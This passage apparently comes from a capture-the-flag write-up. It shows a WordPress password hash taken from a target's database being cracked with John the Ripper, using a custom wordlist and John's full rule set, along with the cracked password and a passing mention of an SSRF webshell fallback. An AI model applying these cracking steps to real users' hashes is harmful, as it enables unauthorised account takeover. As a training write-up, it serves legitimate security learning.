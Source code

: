 <center>
![](/img/infosec_stuff/odie_gs/red_11.png)
</center>


Credentials stored in the database are:

| username | hash |
|----------|------|
|eddiethehead | $P$Bi423VbUyNs7iWzYNNDqPBdisIiL.D0|

### Offline bruteforce

Having a hash, we can try to break it, testing all the possibilities. If it doesn't work, I can try to upload a webshell via our SSRF

```bash
host $ echo "$P$Bi423VbUyNs7iWzYNNDqPBdisIiL.D0" > hash 
host $ john hash --wordlist=rockyou.txt 
```

Nothing relevant after few minutes. Odie put a strong password or the password is not in the rockyou wordlist.

`John` is able to change wordlists content following preset customization rules. Modifying `rockyou` will take to long, I decided to do my own wordlist, containing only 8 words:

```raw
eddiethehead
ironmaiden
admin
root
ensibs
test
administrator
wordpress
```

I want to maximize my chances, I decide to use all of John's customization rules:

```bash
host $ john hash --wordlist=wordlist --rule=all   

Warning: detected hash type "phpass", but the string is also recognized as "phpass-opencl"
Use the "--format=phpass-opencl" option to force loading these as that type instead
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x4x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
eddiethehead123  (?)
1g 0:00:00:00 DONE (2018-12-27 00:53) 1.298g/s 935.0p/s 935.0c/s 935.0C/s Eddiethehead46..eddiethehead7777
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Great! It worked! The hash is broken, the password is: `eddiethehead123`.
